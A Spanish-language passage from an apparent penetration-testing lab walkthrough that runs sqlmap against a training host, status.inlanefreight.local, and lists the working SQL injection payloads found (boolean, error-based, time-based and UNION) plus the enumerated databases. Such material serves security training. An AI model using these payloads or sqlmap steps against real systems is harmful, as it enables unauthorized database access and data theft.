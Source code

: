 A continuación, ejecutamos esto a través de sqlmap como sigue:



```r
sqlmap -r sqli.txt --dbms=mysql 

<SNIP>

[00:07:24] [INFO] (custom) POST parameter '#1*' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=%' AND 6921=6921#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=%' AND GTID_SUBSET(CONCAT(0x716a787071,(SELECT (ELT(5964=5964,1))),0x716a7a7171),5964) AND 'lVzh%'='lVzh

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=%' AND (SELECT 1227 FROM (SELECT(SLEEP(5)))jrOp) AND 'ENPh%'='ENPh

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: searchitem=%' UNION ALL SELECT NULL,NULL,CONCAT(0x716a787071,0x78724f676c7967575469546e6b765775707470466457486b78436373696d57546b4f72704d47735a,0x716a7a7171),NULL#
---
[00:07:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 19.10 or 20.10 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[00:07:38] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/status.inlanefreight.local'

[*] ending @ 00:07:38 /2022-06-21/
```

A continuación, podemos enumerar las bases de datos disponibles y ver que la base de datos `status` es particularmente interesante:



```r
sqlmap -r sqli.txt --dbms=mysql --dbs

<SNIP>

---
[00:09:24] [INFO] testing MySQL
[00:09:24] [INFO] confirming MySQL
[00:09:24] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.10 or 20.04 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 8.0.0
[00:09:24] [INFO] fetching database names
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] status
```